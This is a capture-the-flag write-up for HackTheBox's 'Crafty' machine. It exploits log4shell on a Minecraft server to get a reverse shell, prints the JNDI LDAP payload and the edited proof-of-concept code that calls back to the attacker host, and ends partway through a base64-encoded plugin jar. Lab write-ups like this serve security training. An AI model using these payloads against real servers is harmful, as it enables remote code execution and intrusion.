



# Crafty - HackTheBox - Writeup
Windows, 20 Base Points, Easy



## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find port `80` and `25565`.

***User***: Discovered a `Minecraft` server. Exploited CVE-2021-44228 (log4shell) to achieve Remote Code Execution (RCE) on the `Minecraft` server. Leveraged the exploit to establish a reverse shell as `svc_minecraft`.

***Root***: Identified a Minecraft plugin containing the `Administrator` credentials. Utilized a PowerShell script ([runas.ps1](./runas.ps1)) to obtain the root flag as `Administrator`.


## Crafty Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Crafty]
└──╼ $ nmap -sV -sC -oA nmap/Crafty 10.10.11.249
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-05 23:09 IST
Nmap scan report for 10.10.11.249
Host is up (0.073s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://crafty.htb
|_http-server-header: Microsoft-IIS/10.0
25565/tcp open  minecraft
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Observing port `80`, we see that the following web page is hosted:


It appears to be a `Minecraft` server. To connect to the server, the client can be downloaded from https://www.minecraft.net/en-us/download. For instructions on installation, refer to this video:


Next, navigate to `Multiplayer` and input the server's IP address:


We can exploit `CVE-2021-44228 (Log4j 0-Day Remote Code Execution Vulnerability)`.

Being on the `Minecraft` server, our next step involves sending the message payload.

Let's utilize the proof of concept (POC) from https://github.com/kozmer/log4j-shell-poc.

We must modify the cmd variable from `String cmd="/bin/sh"` to `String cmd="cmd.exe"` within the `poc.java` file:
```java
┌─[evyatar9@parrot]─[/hackthebox/Crafty/log4j-shell-poc]
└──╼ $ cat poc.py
...
public class Exploit {

    public Exploit() throws Exception {
        String host="10.10.14.14";
        int port=9001;
        String cmd="cmd.exe";
		...
```

Start the POC:
```console
┌─[evyatar9@parrot]─[/hackthebox/Crafty/log4j-shell-poc]
└──╼ $ python3 poc.py --userip 10.10.14.14 --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.14:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
```

Now, send the message `${jndi:ldap://10.10.14.14:1389/a}` in the `Minecraft` chat to initiate the reverse shell.

NOTE: Alternatively, you can utilize https://github.com/ammaraskar/pyCraft to connect to the Minecraft server and send the message accordingly:
```console
┌─[evyatar9@parrot]─[/hackthebox/Crafty/pyCraft]
└──╼ $ python3 start.py 
Enter your username: evyatar9
Enter your password (leave blank for offline mode): 
Enter server host or host:port (enclose IPv6 addresses in square brackets): 10.10.11.249
Connecting in offline mode...
Connected.
${jndi:ldap://10.10.14.14:1389/a}
Message (CHAT): {"translate":"chat.type.text","with":[{"insertion":"evyatar9","clickEvent":{"action":"suggest_command","value":"/tell evyatar9 "},"hoverEvent":{"action":"show_entity","contents":{"type":"minecraft:player","id":"57d548e8-24d3-3820-9849-9e47c7e9821f","name":{"text":"evyatar9"}}},"text":"evyatar9"},"${jndi:ldap://10.10.14.14:1389/a}"]}

```

And successfully, a reverse shell is obtained:
```console
┌─[evyatar9@parrot]─[/hackthebox/Crafty]
└──╼ $nc -lvp 9001
listening on [any] 9001 ...
connect to [10.10.14.14] from crafty.htb [10.10.11.249] 49693
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\users\svc_minecraft\server> cd ../Desktop
c:\Users\svc_minecraft\Desktop>type user.txt
type user.txt
4ea78e99d7929e8b5c8d67efeb56f833
```

And we get the user flag `4ea78e99d7929e8b5c8d67efeb56f833`.

### Root

Upon observing the `Minecraft` server, we discovered the presence of the `plugin` directory:
```console
c:\users\svc_minecraft\server>cd plugins
cd plugins

c:\Users\svc_minecraft\server\plugins>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is C419-63F6

 Directory of c:\Users\svc_minecraft\server\plugins

10/27/2023  01:48 PM    <DIR>          .
10/27/2023  01:48 PM    <DIR>          ..
10/27/2023  01:48 PM             9,996 playercounter-1.0-SNAPSHOT.jar
               1 File(s)          9,996 bytes
               2 Dir(s)   3,432,927,232 bytes free

c:\Users\svc_minecraft\server\plugins>
```

Let's proceed to download the `jar` file:
```console
c:\Users\svc_minecraft\server\plugins>certutil -encode playercounter-1.0-SNAPSHOT.jar ../../Downloads/b64.txt
certutil -encode playercounter-1.0-SNAPSHOT.jar ../../Downloads/b64.txt
Input Length = 9996
Output Length = 13802
CertUtil: -encode command completed successfully.

c:\Users\svc_minecraft\server\plugins> cd ../../Downloads

c:\Users\svc_minecraft\Downloads>type b64.txt
type b64.txt
-----BEGIN CERTIFICATE-----
UEsDBBQACAgIABY0W1cAAAAAAAAAAAAAAAAJAAQATUVUQS1JTkYv/soAAAMAUEsH
CAAAAAACAAAAAAAAAFBLAwQUAAgICAAWNFtXAAAAAAAAAAAAAAAAFAAAAE1FVEEt
SU5GL01BTklGRVNULk1G803My0xLLS7RDUstKs7Mz7NSMNQz4OVyLkpNLElN0XWq
tFLwTSxLzVPwcgxSCMgpTc/MUzDWMwapcSrNzEnR9UrJ1g0uSE22UjAy5OXi5QIA
UEsHCFKMvP9RAAAAUQAAAFBLAwQUAAgICAAUNFtXAAAAAAAAAAAAAAAACgAAAHBs
dWdpbi55bWzLS8xNtVIoyEmsTC1Kzi/NK0kt4ipLLSrOzM+zUlA31DPQDfZzDAj2
8A9R58pNzAQKZpQk6SUXJaaVVOqhaNMLQDEksSBTF9kgIwN1LgBQSwcI6L9grk4A
AABtAAAAUEsDBBQACAgIABU0W1cAAAAAAAAAAAAAAAAEAAAAaHRiLwMAUEsHCAAA
AAACAAAAAAAAAFBLAwQUAAgICAAVNFtXAAAAAAAAAAAAAAAACwAAAGh0Yi9jcmFm
dHkvAwBQSwcIAAAAAAIAAAAAAAAAUEsDBBQACAgIABU0W1cAAAAAAAAAAAAAAAAZ
AAAAaHRiL2NyYWZ0eS9wbGF5ZXJjb3VudGVyLwMAUEsHCAAAAAACAAAAAAAAAFBL
AwQUAAgICAAVNFtXAAAAAAAAAAAAAAAALAAAAGh0Yi9jcmFmdHkvcGxheWVyY291
bnRlci9QbGF5ZXJjb3VudGVyLmNsYXNzlVTLUhNBFD2dBCaJQSTyRhRQIBhCG0RB
UEReEg2IgCglm8nYhjFhOk56DPgDfoprN1ClVbr3o9TbA2KELDRT6ce595776u7v
Pz5/BTCGTBQBBA2EYqhDPUOvdPM85xUKtuKlope3Hf7GfGfyRzSs+nuG+ru2Y6tp
hmBiaNNAmKHDEYoXXOnIMncL0uGWdAVfs6QTRpQhkh4dH7lBXzqMGEND+fa4NzH2
/vHbicyLShTn0WjgQgxNiDNc8N0VTSfP15VrO3mGcF6o2X0lygyhxNDL2SgMNOt4
WxjaE9nTBlOZl7M6rjaGi77MljzzZGHPEiVlS8dAB0PnH6M1z1H2rjiRR9GOLs1+
6RT7xo4rK2auKKY0+2UGXjNrsccfeGpHEKtlasIT5jB6GJpLRXNfuOUe6RRtR/RY
kvzrjPpiuIprDIYld3dN5xXDQI3chs5CBgaqMl0lTD13bSXcMBIMfXOT2+RHlbzc
dqVScaVU20ch+J5H1J4K4zpD3bONxdREFP0Y1smnGAZruK8R0Ka24THcQJqCL2n3
RTokLbWCp7rdpLx2VI5brvla7fOqUITLV6t31O05+UowNGYpgRVvNyfcDV1/hnhW
WmZx03RtvT8GQ2rHpiOSyP4b/RQdLGqOc2TM6N+SrXFcSC0gRhnS2f/sNhnWV/w+
VDNXtcdnpnKEKCIqWFdtB/oSaSpXlL2i0qmfKSvdqHVlWoVls3Rcioh05u3y0Tq6
Lj3XEou2X7i/SjCiqZDGKL0B+hcE068AjWO04zQzmuuuH4J9okUAt2is98EobtMY
O1LAOCZoZrjz25hNEhoibJ1lv8DYikea7A/xcwdoOMTF7Ee0LX9B+9bwITq//Vmx
5WT8ygF6Cenfig/Ghw6RXEkNH2DkIxpWtFpKq32iOANoRhta/bkX3UhhAUu0D/oh
TqORxgaSNpK8lTSb6FLHSbMZfWhBkpAUOijQTsygi2yvkHU3MriMNfT4qS3RlWxH
BJOYIp4+Wt3FPVrNUGLTuE+eMoTNkDSo0zwuQQBP8QCzVIQUBjCHeUIWCE+i7ic5
DRgYNYiYGWjNGOiO/MQl/fpq0KB3UOMRMl48aULSryvONuBqVQPYSQMe+lpLvwBQ
SwcI/H4GbEcDAADfBQAAUEsDBBQACAgIAPczW1cAAAAAAAAAAAAAAAAPAAAATUVU
QS1JTkYvbWF2ZW4vAwBQSwcIAAAAAAIAAAAAAAAAUEsDBBQACAgIAPczW1cAAAAA
AAAAAAAAAAAaAAAATUVUQS1JTkYvbWF2ZW4vaHRiLmNyYWZ0eS8DAFBLBwgAAAAA
AgAAAAAAAABQSwMEFAAICAgA9zNbVwAAAAAAAAAAAAAAACgAAABNRVRBLUlORi9t
YXZlbi9odGIuY3JhZnR5L3BsYXllcmNvdW50ZXIvAwBQSwcIAAAAAAIAAAAAAAAA
UEsDBBQACAgIAPczW1cAAAAAAAAAAAAAAAAvAAAATUVUQS1JTkYvbWF2ZW4vaHRi
LmNyYWZ0eS9wbGF5ZXJjb3VudGVyL3BvbS54bWy9Vltv2yAUfs+viKK9GpK0D1VF
qaZdtEntGrXdtFeCiUPmgAc4F03778NgO9iOk0yalqfw8R3Ody4cjO5363S4YUpz
Ke5GEzAeDZmgMuYiuRt9ff0Y3Yzu8QBlSq4YNUPLFvputDQmu4VwTTZMAJIRumRA
qgTOnh7hNRjbUwbD6udMbnea12bb7RZsr5zBdDyewO+PDy/2hDWJuNCGCMpCc81v
tdt9kJQYJ/Os+2EfY6djD0aOB+x6hJ0ztJYxS7/5TGC3i2ADG3heomSefY7x0swB
VWRh9ghWmGcQZfiCUGOBLCV7pqjMhWEKwWDHU8vMY5v46OXL29nLp6dXBCvUc6z6
HySxBcErYs84LEtBgqxZ25HDyn1bu4xZx0zjOq1oRTYEHLzfINhADsSy8mCe8zQG
WuaKsg9lh2DXIFbSKY4XAUMVHnLs0FOa27ACkQHaBBt1sGWtKuzLXZ7TqkrDNqiD
7wYq1xlPmYq8cbdSDfMqS1fgBkxa5WoQqRQLnuTK9W1333F8uvCbX2EBfiNY4seN
DFEJM12jEu8qgSek2OIcSfJ/yrxekpj9bdqn4PpU2tmO0byIU/ekryYc3/fhL4m2
98rdNmZT5Jb99ESStMddg4NdwDZFxf/+4+CZ8y5prQNXMWLYe5YxEdvpvn9mcU5Z
PJNrvLBerJoTjBMaL2lveCLXwWb72ndaskLCIaaYvyRt4wo/4jHmyk4qqfZYK2qf
Ai5gfQqCh92u5YKndrQWE82o3KbssG4p73o/YLoah+XwG5R6M6m59duc0TXckoN4
jHXGE2nWNCpICPLWfUG5SnHxCGr7Ci7zOaj47hUUbJfronqGCQND71ALkumlNBoi
WJzRiKEr57RGKYjZZ+yMPKk1qKhOXiXMTRENs3yecvoP9Ky4Ka4z4OcSFhLPOEWw
WTwPxtVFaha0htviwolaVapnioYT1FMjkvH+yRl8YkzHYBo9j8Gk71OjttHUPtbY
PtkbHrPYvkVuHaThWCTnw7OvLEi4Kfpxxn7mKbkgxmfbDe+kYpdFeCSgrtgAcfWp
P2Dw4A9QSwcIREyCtxgDAAAQCwAAUEsDBBQACAgIABU0W1cAAAAAAAAAAAAAAAA2
AAAATUVUQS1JTkYvbWF2ZW4vaHRiLmNyYWZ0eS9wbGF5ZXJjb3VudGVyL3BvbS5w
cm9wZXJ0aWVzSywqyUxLTC7xTLEtyEmsTC1Kzi/NK0kt4kovyi8tAIpmlCTpJRcl
ppVUcpWlFhVn5ufZGuoZ6Ab7OQYEe/iHcAEAUEsHCCkvin9CAAAAQQAAAFBLAwQU
AAgICADkRllSAAAAAAAAAAAAAAAABAAAAG5ldC8DAFBLBwgAAAAAAgAAAAAAAABQ
SwMEFAAICAgA5EZZUgAAAAAAAAAAAAAAAAsAAABuZXQva3Jvbm9zLwMAUEsHCAAA
AAACAAAAAAAAAFBLAwQUAAgICADkRllSAAAAAAAAAAAAAAAAEAAAAG5ldC9rcm9u
b3Mvcmtvbi8DAFBLBwgAAAAAAgAAAAAAAABQSwMEFAAICAgA5EZZUgAAAAAAAAAA
AAAAABUAAABuZXQva3Jvbm9zL3Jrb24vY29yZS8DAFBLBwgAAAAAAgAAAAAAAABQ
SwMEFAAICAgA5EZZUgAAAAAAAAAAAAAAAB8AAABuZXQva3Jvbm9zL3Jrb24vY29y
ZS9SY29uLmNsYXNzjVZtUxNXFH42bLJJXECDoEGUoFZDAKNWW4vWCr5iQSmgFWmr
S7JCINmNuxsBq33X1p/Qb+1MZ/qlH7RTQqfOlBmZ6Yf+pE6n9Lk3MQQarcNkz73n
nnPuc55z7r38+c9vvwN4E4/C8OGqhvdD2ItrGsbDUHFVTK6HMIEPxOjDMD8fhdGO
G+JzU4MRxGQYOlJ1wOpqEGnhZQrbWxqmwmjCtJhkNMwI39kwWpDVkAvCCiOKlLCw
g8iLcLc1OGLdFZae0BTE9I6GOQWqu2ClFEQGZ4w7RjJrWFPJy5MzZso7zjXHsNKV
tYKXySZHqLFzXAs55u2C6XoDNFAGFARcOzVregq2lKwt00uOShWNtdS04bhitbW8
mrGTZV3ydEnSLHAiY2W8kwq2x6vgjHpOxpo6PjDR33mVmE7baVNB42DGMi8VcpOm
M2ZMZk2B0k4Z2auGkxHzslL1pjOugh2DAs6sY1u2m3RmbSuZsh0zOZKyLZHmtO16
6yko78m1vO1wLZg3XHfOdpisb6JfQfjsfMrMexnbcjXMiwRtyyJpCuockxt2vHjD
YaNMSv2ox+GQkZdYNfRqWGDkdMZdCxYXKTN4Licrsa8GL521YGt5YyFrG3QJEk+e
MAUZrlkKIqh8BYCqt5Cnmz5leiNrxSYmljtE5Wi54k3xzho1D9Pi9POyt1VMahY+
7FbZ7oy/2FTQER61C07KPJcRBQ4JxAeEvY4kzijYvLGPdbyGfc/1VT2sYz/iGu7q
+BgHdPSIz9s4qOMe7uv4BJ8q2L0WayCbNaeMbJ8zVciZllcpP3vrArsnljKs/V5s
0oxZhWw2ZjsxM5f3FgSmzxRsHWYTxTJuzC54MftWjMdqytTxOYZ0dCLBbt5An/D7
QkcXuhW0/0+hdAzgoo5BDClI1rQ155N9BW+asDMpQ4CuRj9cbuyYYwq2zHRsciHm
ms4d09HxpWB013Cpl16Y41d4sI73UhfqeIgHOobxnsjmawHzGwXRF2bDPpIhWPWB
y1UIm9YCj0079lzpYHf8p0V4mqy04aTLrcJD6L8ydu7GMdHHTibHKsRrH5WMe1bk
ITv7uoLmWmdMnELLnPcGLDZoS63bSZj4U1lbHLQgW79/wRMXgRrvlPcFNcPPj2R7
fKL/5S3eF3/JhfVKpxcdvOt9fID8iIgDwFFENDylT/SclOwvKdn7lCGwgXCQ80Oc
PeB7o1J2JpagJJ7CN065iDoOVQ79iwgkfoa2iGCiq62niNATGeowv60I8NtO93o0
ooHzDgknTiCvcyVRCowjOArI0Rt8JxU5OsZVnxy9hV7U4TjHAWpO8FFTxPkswVMO
MTGxy1zXH6jvKiJcxKZvUf8U+nikfgkNy23q9wi1RRp/KCs3C2XiF9SN96rPEhwE
itiyiAjzaRrvalvC1kU0R9WVH7Gp108Z9S8nAsxrW68aVYvY7vtOBIqOR1qXsGP5
CWEcZW+PEsIorklZJ5M/zEdbfBuY6nYmtoep9TCNowR/in9D6OOrfwYpnEcWF3AH
FyUpR5gQ06mQMlchZa5CylyZlBS24iTeIY2nqN0HrSEUDq2SXb+GvRraFQ19Gj0o
+/+C9jdaNb7366k8TQylSt+l5H8ZiEp2Bp9RNBfR1kUqgkNdK90yWQ2b+R8F+GuR
spRsRFZyhKujTHiMCV+RyegSeLScjADZDN8qHX0S4HNkqsSk0vgEf2dxrozoIXUC
0eEaxd0p6+indheLM/QU7ePdRcQSRXQsYffjDdBuEpZBWGnsxi0JLVaKXOH5MOsg
eN7NBC+QU5+Eq8LXEKpC5xOXbBndI0YQtdom+br0LLGj+1fs6Vl53Kv2rETVZclW
I8OBv61SliA1yK1nuDpLbbYKzrYKnG14l8VW5Og8i12C0wJllS4q2auu7Tr6+ADw
KwAmKUUEPwFGfqocy4BU5qsK5C9vq+ASLtdwbn68wdmr6cwrvoZzcKPzfE3nEbZO
yfkkrUWXBxJdvFXWrpOw1N6jz30ZoaVkVaEsIO8vsfGY9LnyL1BLBwjPTE/T6QUA
AHsLAABQSwMEFAAICAgA5EZZUgAAAAAAAAAAAAAAACUAAABuZXQva3Jvbm9zL3Jr
b24vY29yZS9SY29uUGFja2V0LmNsYXNzjVZrdxtXFd0jjTS2Ok6MHSWW7SQugXas
xFEKxTR2mtQPhQpkO7UdOyEpzlga20omM8poFMeFUGgpffEojwJ98KYvKKzAIooX
yWq/81/4C8A+I1mWHRn65dx7zz3Pffe9M//89z8+AvBF/CWGh2C24iAWReRE5GOw
sBTDMlZkVohRd1nDFdHYIq6KxhHhiijGcA1eK0rwZVYWcV3EqogbItZieAZfF/GN
GM7hpui+KeJZDd+KoQffFvGciJsanpeo39HwgobvanixBS/FcAgva3hFQc9Menou
Pb0wPjI7spA+lx47O5teGJuamBiZHFegZBS0jblOyTcdf860y1aYbYYUtDe6jZyd
fVL0YQWtnnWtbJX8TF6B6q8VLQVa0VyzXZOK0IVRBdETBafgn6TeyGQujPbP0XDM
zdNwd7bgWJPlq4uWN2su2tR0ZN2cac+ZXkHWNaXqrxRKCh7MOpafuuK5jltKeVdc
J5VzPSs1nXOdM2buiuUPK9CXLX96s6Cw0c9+NCpng8pinJ3ZKE41+qU8tWQ5XI0Y
O4cflrI/QfZQiTm6s5fN62ZKrGdc2UjfyFlFv8AwTObRnmfwP3IR/xmfESfMYq3/
WD1CScOrCiKrXsGnfr9RTVVwU1Nlv1j2Z3zPMq8Ob6Acdsu+gr3NjRh20c2vZS1n
2V8hcMWgiY1ldLG8tGR5CuK1bug+uuZbo4E6aMQSDB/bLCHjbAb/JGBF7VqucF5O
N1EPNG76ZmMwktKqF2KbznKqEdFQwalvbquCOVZYpeVp+J6GYxq+T8oFDGhsVTUy
QpI2bow2ANJWI/HGOjbjlr2cdbogJ7J7s5OjklnHI/iBjgEYOo6KSEm6H+p4DT/S
8GMdP8FPdTyG4zpO40sKunaiiI7XJdDP8HMdk5jS8TQu6riAixp+oeMNvKnhLR1v
45c6foVf6/gN3tTxW/xOxO91/AEnNLwjSd7V8Z5EmsT7Oj4Qgz/iuIJ9O4AsDfxJ
x4d4V8HB/3N2Yvs5XsdNYgSkOOsQ6SXbXa03o2DPRrr01OkG9bGmGawbqQnTXnK9
q1a+mqnBpXfMdBzX7xPa9fkrVt/qimtbfcV6RX/mE7XJkKnFy1aO5O+s82KqIVhn
E7ZsaLcSLHhCeJUSO2LCF5DMqR4jYxj9268/abh7m6pKw8brSEpseN5/USM525WX
ZRedtlS8r8FnK/E7m9xaBS2mbfN9lbeji6zf4Wp3bFFPeXlxbctmZmez6YX05Hhm
ZJInm73fSkp1q+aHjWb7O2WMsvSMQ1jCRXmxEoY8t81Nu4wdtyKm55lrDaTbCnDE
qL6KkSW7XFqprXnx1VXPLLKGAFxfMjR/0uaCb52ZP122bWaJGw0PEm0KzjJt8CA/
vA/xyxhBAg/DgIJ++X4iyfXhhvURdMhzwXmHvBjByEeDYyt3ecFo+XmubK5UjnuS
d6Ake24jlOy9jXBy4DbUvwaRHqXcy3xAFy0T9O/GLv4GdKIXX6A2WfXHIH9WEMwG
gjpkJplDwUxyh6nlG1XLnOIoVpHk3xH6sJ4qGigPBqH1qkEttIKhps7h7c6HmjoP
40QTZ/XWNueHmzjreBwnaSXOb7BdadhIVhCpIMpB6zmyjpb30DZZ1cUGPq5OHliH
fiuI1E64WgmA5OlmJvmza8cpao8TnGHCeRL7MVIHdA+tT+EJyE+QQf1oAK0RAKoE
MwE0hDHONYRmNLS2YpwLldtpxOQzUCv4Xxw1jvMDH62jbVCNq+vYNRiJR9axeyia
iP4N7RV8aj4RjasVdHDsqQ691WGggk4O4Qr2bAzJRLSCeAV72eW+TZIMoo1yisnO
kCDTiGMGB3CWdJ0jJeZpc46dXmAvF5HBAi0ucccMen6yWiLHTNDpfJ1E83USzddI
JPG/TJ3KLBl8hbMIc40iiwki2wgCv3BVEJTHadPCneV2/V5LNnm4gq75w+tITByp
tX+kgu6TIgbVQEb2a3ktH8nfaxmK3kXPeV6P3iEtoUnr+xNa5F5LBQfm7+Lg+bga
jySid9B3a+IuDp3v+MwdfPZjpn1APqu8r9Xx07XDH2LRgMNyrnGnTBJc5726wcNf
I2+f4e29SbtnSYfn2MILbOFFer/M7/QrAVAXSYx2tirNhuh1imAYjH2IRBoIQOln
w0cDUB6t0STKaAfwFAHXGCfGY5kNAF3m4cwFNF8kuMcI2ljwTij/YZqQhnMazkPR
8NUtoEo31Xt0lFHkiFSt+9L2O/hawzVSg+MCfZ+u+z5S89XaW7ovRe5zf73BXcPX
AneFnBGrS/8FUEsHCNS34SGxBgAAHA0AAFBLAwQUAAgICADkRllSAAAAAAAAAAAA
AAAAGAAAAG5ldC9rcm9ub3Mvcmtvbi9jb3JlL2V4LwMAUEsHCAAAAAACAAAAAAAA
AFBLAwQUAAgICADkRllSAAAAAAAAAAAAAAAANQAAAG5ldC9rcm9ub3Mvcmtvbi9j
b3JlL2V4L0F1dGhlbnRpY2F0aW9uRXhjZXB0aW9uLmNsYXNzlVA9T8MwEH0XQgKh
UCiCiYWNDwmLqUNRJYRgiliKurvGSk1TGzkO6t9iQmLgB/CjEJdQwYAYOEvn9559
7073/vH6BqCPXoYVdFNsp9ghJBfGmjAk7B3lD/JJilLaQoyCN7YYHI8J8ZW714Ru
bqy+recT7e/kpGSllzsly7H0puFLMQ5TUxHOc6uDmHlnXSX8zFmhnNdCL8RlHaba
BqNkMM5eL5R+bMCAkM51Vcmidf41CSEbudorfWOaNgd/2Jw1hR3EWCWIf45A2P1p
+63iEBHvqwniw86cE2ZD1iO+k5PTF9Azowgp5+xL5X8p1hjtL/k6v6BFG+i0Xptt
zdYnUEsHCA+UL/D/AAAAmQEAAFBLAwQUAAgICADkRllSAAAAAAAAAAAAAAAANgAA
AG5ldC9rcm9ub3Mvcmtvbi9jb3JlL2V4L01hbGZvcm1lZFBhY2tldEV4Y2VwdGlv
bi5jbGFzc5VQTUvEMBB9qbXVurq6ojcP3vwAI148rOxFFIT6ASt7z2ZjjW0TSbOy
f8uT4MEf4I8Sp1G8iAcz8GbeY+bNkPeP1zcAx+hlmEM3xWqKNYbkRBvtBwwbO/mD
eBK8EqbgQ++0Kfq7I4b41E4UQzfXRl1N67Fyt2JckdLLrRTVSDjd8m8x9ve6YTjK
jfK8dNbYhrvSGi6tU1zN+KWo7qyr1eRGyFL5s5lUj15b02dIa9U0ogjWv05hyIZ2
6qQ61+2erb98DtrJDmLMMxz+9wiG9bBYW35x/aNiGxF9WfsYBVkTJsQGpEeUk739
F7BnqiKkhFlQF6hvkRDY/OoilgWXBEvoBK/lMLPyCVBLBwg6DTweCAEAAJwBAABQ
SwMEFAAICAgA4UZZUgAAAAAAAAAAAAAAACQAAABNRVRBLUlORi9tYXZlbi9uZXQu
a3Jvbm9zLnJrb24uY29yZS8DAFBLBwgAAAAAAgAAAAAAAABQSwMEFAAICAgA4UZZ
UgAAAAAAAAAAAAAAAC4AAABNRVRBLUlORi9tYXZlbi9uZXQua3Jvbm9zLnJrb24u
Y29yZS9ya29uLWNvcmUvAwBQSwcIAAAAAAIAAAAAAAAAUEsDBBQACAgIAOFGWVIA
AAAAAAAAAAAAAAA1AAAATUVUQS1JTkYvbWF2ZW4vbmV0Lmtyb25vcy5ya29uLmNv
cmUvcmtvbi1jb3JlL3BvbS54bWzFk11LwzAUhu/3K0rxtsk6BWVk8UpB2FDwA29j
Gmu0TUqSbgPxvxuTdGv2JSLo7vae9z3pyXOCzpd1lcyZ0lyKSZqDYZowQWXBRTlJ
7+8us7P0HA9Qo+QroyaxbqEn6YsxzRjCmsyZAKQh9IUBqUp4cz2DJ2BouwyS7uci
46Xmq9hisQCLYxcYDYc5fJxNb22HmmRcaEMEZf245mPtqlNJiXGf+e3xyT7HUhde
zJwP2P8pdoehWhasevA3gV0VwUgbeF+pZNtcFVgwA96UFFID9SYFoFIxBLuq9xJl
+DOhxgpfnsx7eqq3hfvHORghOI+PszffMBtgGq8uBfm5qKwbXjEFtGwVZTjPEdxd
2Zs0RJXM7EqGyjoZVgA8tbwqQuOLsCrYbQqCBz1+HtgfyEvO3T+paku7CWulp8Zi
BMTy7VD7WUKfDShRtofCr0U3f+bD27CieMfqGJx+rcsK3ZaRSvHMy1a5Bd6uO09g
dfS+k+EHgpswo3TgtZX2uk1vAo3S3Zu3+UMMbRsW4YyawANTWu47+P0RVMX8GPqn
VEe/p/oPN9spunty4YGt3if+BFBLBwj6BBiCrwEAAPcFAABQSwMEFAAICAgA5UZZ
UgAAAAAAAAAAAAAAADwAAABNRVRBLUlORi9tYXZlbi9uZXQua3Jvbm9zLnJrb24u
Y29yZS9ya29uLWNvcmUvcG9tLnByb3BlcnRpZXMdyTsKgDAMANC9pwg4W2qhIIKT
oDi46QGqxg9CIrEK3t7P+l5UIaH4gCP0NzT+QlJRu5xQYg/WgUkz5zKTQtcWYI1N
1Cx87vWYEwa9CRMfWjYmPbCg8hLWyQ/h/Q/jHy+UY2XKE23VA1BLBwiXqr33aAAA
AHAAAABQSwECFAAUAAgICAAWNFtXAAAAAAIAAAAAAAAACQAEAAAAAAAAAAAAAAAA
AAAATUVUQS1JTkYv/soAAFBLAQIUABQACAgIABY0W1dSjLz/UQAAAFEAAAAUAAAA
AAAAAAAAAAAAAD0AAABNRVRBLUlORi9NQU5JRkVTVC5NRlBLAQIUABQACAgIABQ0
